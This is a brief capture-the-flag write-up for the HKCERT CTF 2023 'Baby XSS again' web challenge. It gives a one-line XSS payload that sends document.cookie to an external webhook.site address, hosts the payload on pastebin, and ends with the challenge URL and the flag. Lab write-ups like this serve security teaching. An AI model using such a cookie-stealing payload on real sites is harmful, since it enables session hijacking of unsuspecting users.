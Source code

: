 We are provided with some very nice steps in the step-by-step:
https://hackmd.io/@blackb6a/hkcert-ctf-2023-ii-en-4e6150a89a1ff32c#%E5%8F%88%E6%9C%89%E5%AF%B6%E8%B2%9D-XSS--Baby-XSS-again-Web

Less work for me I guess!

First we make a request bin:

```
location='https://webhook.site/e307542f-7ce6-4578-9f74-69957b31a2c4/?cookie='+document.cookie
```

Upload to pastebin, do captcha, done.

http://babyxss-k7ltgk.hkcert23.pwnable.hk:28232/?src=https://pastebin.com/dl/tVWDNAEH


flag=hkcert23{pastebin_0r_trashbin}